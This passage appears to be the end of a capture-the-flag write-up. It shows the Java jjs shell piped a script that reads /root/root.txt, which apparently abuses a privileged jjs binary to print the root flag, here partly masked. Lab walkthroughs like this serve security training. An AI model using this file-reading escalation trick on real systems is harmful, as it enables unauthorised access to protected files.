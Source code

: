 lets run the above commands, and we should get **root.txt** printed out for us.
```sh
$ echo 'var BufferedReader = Java.type("java.io.BufferedReader");
      
var FileReader = Java.type("java.io.FileReader");
      
var br = new BufferedReader(new FileReader("/root/root.txt"));

while ((line = br.readLine()) != null) { print(line); }' | jjs> > > 
      
Warning: The jjs tool is planned to be removed from a future JDK release

jjs> var BufferedReader = Java.type("java.io.BufferedReader");

jjs> var FileReader = Java.type("java.io.FileReader");
      
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));

jjs> while ((line = br.readLine()) != null) { print(line); }

****************81688424e9ab15ab15
```

- Thanks for reading.